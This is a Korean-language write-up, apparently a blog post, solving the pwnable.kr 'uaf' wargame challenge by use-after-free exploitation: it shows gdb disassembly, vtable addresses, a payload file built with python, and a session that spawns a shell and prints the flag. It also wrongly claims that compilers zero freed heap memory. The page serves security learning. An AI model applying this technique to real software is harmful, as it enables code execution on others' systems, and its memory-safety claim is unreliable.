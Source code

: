 ```yaml
---


---
```


<h1 id="pwnable.kruaf-문제-풀이"><a href="http://pwnable.kr">pwnable.kr</a>:UAF 문제 풀이</h1>
<h2 id="uaf취약점에-대한-공부">2019-07-07 : 'UAF취약점’에 대한 공부</h2>
<p>UAF(Using After Free)는 반납된 Heap영역을 다루는 것이다.</p>
<ul>
<li>Heap을 free를 하여도 그 안에 있는 값이 초기화 되지 않는다.(!)</li>
<li>Heap에서 free가 이루어지고 새로운 영역이 필요할 시, 최적화를 사유로 free된 영역을 재사용 한다.</li>
<li>Heap Overflow는 Stack Overflow와 유사하나 정해진 데이터에서 정보 데이터가 포함되 본래 용량보다 크게 할당된다.</li>
</ul>
<p><em>(!)읽어본 자료에는 이러한 취약점 때문에 , free하기 전 데이터를 초기화 할 것을 추천하고 있다.<br>
하지만 2019년 기준 GCC와 Visual Studio에서는 free를 할 경우 데이터가 NULL또는 0으로 자동 초기화됨을 확인했다.</em></p>
<h2 id="pwnable.kruaf-관찰">2019-07-08 : ‘<a href="http://pwnable.kr">pwnable.kr</a>:UAF’ 관찰</h2>
<pre><code>class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
</code></pre>
<p>부모 클래스에서 /bin/sh를 사용하고 있다.</p>
<pre><code>					    case 1:
                                m-&gt;introduce();
                                w-&gt;introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout &lt;&lt; "your data is allocated" &lt;&lt; endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
</code></pre>
<p>입력을 받아 1은 클래스 의 매소드를 이용하며, 2는 새로운 입력 영역을, 3은 클래스 반납을 선택할 수 있다.<br>
3번을 선택해 클래스를 반납하고 Heap 영역을 되돌려 받은 후, 2번을 이용하여 위의 system("/bin/sh")을 호출 할 수 있을것이다.</p>
<pre><code>0x0000000000400fb2 &lt;+238&gt;:   mov    eax,DWORD PTR [rbp-0x18]
0x0000000000400fb5 &lt;+241&gt;:   cmp    eax,0x2
0x0000000000400fb8 &lt;+244&gt;:   je     0x401000 &lt;main+316&gt;
0x0000000000400fba &lt;+246&gt;:   cmp    eax,0x3
0x0000000000400fbd &lt;+249&gt;:   je     0x401076 &lt;main+434&gt;
0x0000000000400fc3 &lt;+255&gt;:   cmp    eax,0x1
0x0000000000400fc6 &lt;+258&gt;:   je     0x400fcd &lt;main+265&gt;
0x0000000000400fc8 &lt;+260&gt;:   jmp    0x4010a9 &lt;main+485&gt;
</code></pre>
<p>gdb를 이용해 cmp와 je가 반복하는 부분을 발견했다. 이는 상단에서의 분기가 되었던 switch 문의 case라고 추측 할 수 있다.<br>
이중에서 main+255는 eax가 1인지 물어보고 있다  즉 0x400fcd는 우리가 1번을 선택한 내용이다.</p>
<pre><code>0x0000000000400fcd &lt;+265&gt;:   mov    rax,QWORD PTR [rbp-0x38]
0x0000000000400fd1 &lt;+269&gt;:   mov    rax,QWORD PTR [rax]
0x0000000000400fd4 &lt;+272&gt;:   add    rax,0x8
0x0000000000400fd8 &lt;+276&gt;:   mov    rdx,QWORD PTR [rax]
0x0000000000400fdb &lt;+279&gt;:   mov    rax,QWORD PTR [rbp-0x38]
0x0000000000400fdf &lt;+283&gt;:   mov    rdi,rax
0x0000000000400fe2 &lt;+286&gt;:   call   rdx
</code></pre>
<p>1번의 흐름은</p>
<ol>
<li>rbp-0x38의 값이 rax에 들어간다.</li>
<li>rax의 값이 rax에 들어간다.(값이 주소가 된다.)</li>
<li>rax값에 8을 더한다.</li>
<li>rax값을 인자로 넣고 함수를 실행한다.</li>
</ol>
<p>로 이루어지고 있다.</p>
<pre><code>(gdb) b *main+272
Breakpoint 2 at 0x400fd4
(gdb) c
Continuing.

Breakpoint 2, 0x0000000000400fd4 in main ()
(gdb) x/x $rax
0x401570 &lt;_ZTV3Man+16&gt;: 0x0040117a
(gdb) x/i 0x0040117a
   0x40117a &lt;_ZN5Human10give_shellEv&gt;:  push   rbp
   (gdb) b *main+276

Breakpoint 3 at 0x400fd8
(gdb) c
Continuing.

Breakpoint 3, 0x0000000000400fd8 in main ()
(gdb) x/x $rax
0x401578 &lt;_ZTV3Man+24&gt;: 0x004012d2
(gdb) x/i 0x004012d2
   0x4012d2 &lt;_ZN3Man9introduceEv&gt;:      push   rbp
</code></pre>
<p>**RAX(0x401570)**가 들고있는 system("/bin/sh")의 주소는 <strong>0x40117a</strong><br>
8이 더해진 **RAX(0x401578)**이 들고있는 introduce 메소드의 주소는 <strong>0x4012d2</strong>이다.</p>
<h2 id="tip">2019-07-09 : TIP</h2>
<p>어제 출력 받았던 깨진 스트링들을 “set print asm-demangle on” 하여 온전하게 볼 수 있다.</p>
<pre><code>(gdb) x/x 0x0040117a
0x40117a &lt;Human::give_shell()&gt;: 0xe5894855
(gdb) x/i 0x0040117a
   0x40117a &lt;Human::give_shell()&gt;:      push   rbp
</code></pre>
<p>또한 <a href="http://pwnable.kr">pwnable.kr</a> 에서도 gdb-peda가 설치되어 있다.</p>
<pre><code>source /usr/share/peda/peda.py
</code></pre>
<p>를 gdb실행 후 입력해 peda를 사용할 수 있다.</p>
<p>그리고 파일 입출력으로 인자를 받는 문제들은 파일을 만들어야 하는 상황인데 이때 /tmp/에 디렉토리를 만들어서 쓰는것을 <a href="http://pwnable.kr">pwnable.kr</a> 에서 허락하고 있다.</p>
<h2 id="pwnable.kruaf-분석">2019-07-10 : ‘<a href="http://pwnable.kr">pwnable.kr</a>:UAF’ 분석</h2>
<pre><code>    RAX: 0x401578 --&gt; 0x4012d2 (&lt;Man::introduce()&gt;: push   rbp)
</code></pre>
<p>1번을 따라가면 RAX	에 introduce가 들어가는 것을 확인 할 수 있다. 후에 3번을 선택하고 따라가서 확인하면</p>
<pre><code>gdb-peda$ x/x 0x401578
0x401578 &lt;vtable for Man+24&gt;:   0x00000000004012d2
</code></pre>
<p>free됬음을 확인 할 수 있다.</p>
<p>할 수 있는 조작은 객체의 메소드를 이용하는것, 객체를 free하는 것,  또 다른 객체를 생성하고 read함수를 이용하는 것이다.<br>
추측되는 공격 과정은 아래와 같다.</p>
<ol>
<li>3번을 눌러 객체를 free한다.</li>
<li>2번을 이용해 또다른 객체를 만들어 0x401570가 있던 자리에 (0x401570)-8 의 값을 넣는다.</li>
<li>1번을 눌러 free된 객체를 실행한다.</li>
<li>Heap에는 그대로 남아있기 때문에, 덮어씌워진 (0x401570)-8의 주소로 실행된다.</li>
</ol>
<p>시험삼아 "AAAA"라는 데이터를 위와 같은 방법으로 올려보겠다.</p>
<pre><code>python -c 'print "A" * 4' &gt; /tmp/tayasriel/test4A
</code></pre>
<p>그리고 1번을 선택해 "AAAA"가 올라오는지 확인했다.</p>
<pre><code>RAX: 0x0
RBX: 0x14d7ca0 --&gt; 0x41414141 ('AAAA')
</code></pre>
<p>"AAAA"를 읽었지만 RAX에는 올라오지 못했다. 하지만 두번 연속하여 2. after를 사용하자 성공했다.</p>
<pre><code>RAX: 0x41414141 ('AAAA')
RBX: 0x254dca0 --&gt; 0x41414141 ('AAAA')
</code></pre>
<p>uaf@prowl:~$ ./uaf 4 /tmp/tayasriel/uaf</p>
<pre><code>1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning
$
</code></pre>

